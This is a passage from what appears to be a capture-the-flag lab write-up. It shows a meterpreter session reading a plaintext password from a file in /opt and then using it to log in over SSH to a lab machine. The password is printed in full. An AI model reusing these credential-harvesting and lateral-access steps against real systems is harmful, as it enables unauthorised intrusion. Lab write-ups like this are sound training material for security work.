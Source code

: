 ![Untitled](Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled%202.png)

From there I started my listener and got the reverse shell:

![Untitled](Internal%206e6f52af5eac4b2abbad67bc61a655b2/Untitled%203.png)

Now that I am in  I went to the opt folder and discovered these credentials:

```bash
meterpreter > cat wp-save.txt 

Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:bubb13guM!@#123
```

So I entered from ssh:

```bash
ssh aubreanna@10.10.186.60 

aubreanna@10.10.186.60's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Dec 31 21:32:39 UTC 2023

  System load:  0.0               Processes:              114
  Usage of /:   63.8% of 8.79GB   Users logged in:        0
```